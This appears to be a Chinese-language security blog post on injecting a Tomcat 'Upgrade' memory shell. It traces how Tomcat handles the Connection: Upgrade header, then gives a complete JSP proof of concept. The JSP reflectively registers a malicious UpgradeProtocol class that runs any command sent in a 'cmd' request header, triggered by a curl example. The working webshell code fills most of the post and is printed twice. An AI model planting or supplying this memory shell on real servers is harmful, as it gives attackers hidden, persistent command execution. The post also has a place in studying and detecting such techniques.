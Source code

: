 ## Upgrade

推荐先看[Tomcat 架构原理解析到架构设计借鉴](https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09)

先来看下UpgradeProtocol这个接口

![image-20240710172248091](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710172248091.png)

从实际应用上来说，这个接口被用于对请求的处理,处理connection: upgrade字段

![image-20240710172612068](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710172612068.png)

### 调用分析

![image-20240710173648561](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710173648561.png)

+ AbstractProcessorLight

  process方法，方法下会根据当前SocketState进行对应的相应处理，调用相应的Processor进行处理，在处理HTTP请求时，对应的Processor为Http11Processor

  ![image-20240710173835544](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710173835544.png)

+ Http11Processor

  在service方法中存在if判断

  ![image-20240710174256671](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710174256671.png)

  首先判断当前connection请求头是否为upgrade,如果是upgrade则获取请求头Upgrade字段的值，根据该值调用getUpgradeProtocol方法获取upgradeProtocol对象，并调用气accept方法

  跟进getUpgradeProtocol

+ AbstractHttp11Protocol

  getUpgradeProtocol()

  ![image-20240710175258217](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710175258217.png)

  httpUpgradeProtocols是一个hash表，通过键对值存储数据，这里获取到对应值的upgradeProtocol对象

  跟进到httpUpgradeProtocols是如何进行赋值的

  configureUpgradeProtocol()

  ![image-20240710180911934](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710180911934.png)

  在该方法下执行了相应的put,朝hash表中添加了值
  
  该字段位于request.connector.protocolHandler.httpUpgradeProtocols

### POC编写

我们的目标是获取Http11NioProcol对象，获取httpUpgradeProtocols表并向其中添加恶意类

1.获取Http11NioProcol对象

```jsp
<%
    //反射获取request对象
    Field reF = request.getClass().getDeclaredField("request");
    reF.setAccessible(true);
    Request reQ = (Request) reF.get(request);
    //获取connector
    Field coN = reQ.getClass().getDeclaredField("connector");
    coN.setAccessible(true);
    Connector connector = (Connector) coN.get(reQ);
    //获取Http11NioProtocol对象
    Field proH = connector.getClass().getDeclaredField("protocolHandler");
    proH.setAccessible(true);
    Http11NioProtocol http11NioProtocol = (Http11NioProtocol) proH.get(connector);
%>
```

2.编写恶意的upgrade类

```jsp
<%
    //实现恶意的upgrade
    class shell_upgrade implements UpgradeProtocol {

        @Override
        public String getHttpUpgradeName(boolean b) {
            return null;
        }

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
        }

        @Override
        public Processor getProcessor(SocketWrapperBase<?> socketWrapperBase, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(SocketWrapperBase<?> socketWrapperBase, Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            String cmd = request.getHeader("cmd");
            if(cmd != null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
            return false;
        }
    }
%>
```

这里只弹一个计算机，如果要回显需要自己获取response

3.反射获取httpUpgradeProtocols,注入恶意类

```jsp
<%
    //创建一个hashmap并将恶意对象进行反射添加
    HashMap<String, UpgradeProtocol> upgradeProtocols = null;
    shell_upgrade shellUpgrade = new shell_upgrade();
	//这里需要注意，不要用错了
    Field putI = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
    putI.setAccessible(true);
    upgradeProtocols = (HashMap<String, UpgradeProtocol>) putI.get(http11NioProtocol);
    upgradeProtocols.put("uu2fu3o",shellUpgrade);
    putI.set(http11NioProtocol,upgradeProtocols);
    //curl -H "Connection: Upgrade" -H "Upgrade: uu2fu3o" -H "cmd: calc" http://localhost:8080/
%>
```

![image-20240711112127152](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240711112127152.png)

完整POC

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Connector" %>
<%@ page import="org.apache.catalina.connector.Request" %>r
<%@ page import="org.apache.coyote.http11.Http11NioProtocol" %>
<%@ page import="org.apache.coyote.UpgradeProtocol" %>
<%@ page import="org.apache.coyote.Processor" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="org.apache.coyote.Adapter" %>
<%@ page import="org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="org.apache.coyote.http11.AbstractHttp11Protocol" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%--
  Created by IntelliJ IDEA.
  User: Administrator
  Date: 2024/7/11
  Time: 9:50
  To change this template use File | Settings | File Templates.
--%>
<%
    //反射获取request对象
    Field reF = request.getClass().getDeclaredField("request");
    reF.setAccessible(true);
    Request reQ = (Request) reF.get(request);
    //获取connector
    Field coN = reQ.getClass().getDeclaredField("connector");
    coN.setAccessible(true);
    Connector connector = (Connector) coN.get(reQ);
    //获取Http11NioProtocol对象
    Field proH = connector.getClass().getDeclaredField("protocolHandler");
    proH.setAccessible(true);
    Http11NioProtocol http11NioProtocol = (Http11NioProtocol) proH.get(connector);
%>
<%
    //实现恶意的upgrade
    class shell_upgrade implements UpgradeProtocol {

        @Override
        public String getHttpUpgradeName(boolean b) {
            return null;
        }

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
        }

        @Override
        public Processor getProcessor(SocketWrapperBase<?> socketWrapperBase, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(SocketWrapperBase<?> socketWrapperBase, Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            String cmd = request.getHeader("cmd");
            if(cmd != null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
            return false;
        }
    }
%>
<%
    //创建一个hashmap并将恶意对象进行反射添加
    HashMap<String, UpgradeProtocol> upgradeProtocols = null;
    shell_upgrade shellUpgrade = new shell_upgrade();
    Field putI = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
    putI.setAccessible(true);
    upgradeProtocols = (HashMap<String, UpgradeProtocol>) putI.get(http11NioProtocol);
    upgradeProtocols.put("uu2fu3o",shellUpgrade);
    putI.set(http11NioProtocol,upgradeProtocols);
    //curl -H "Connection: Upgrade" -H "Upgrade: uu2fu3o" -H "cmd: calc" http://localhost:8080/
%>

```

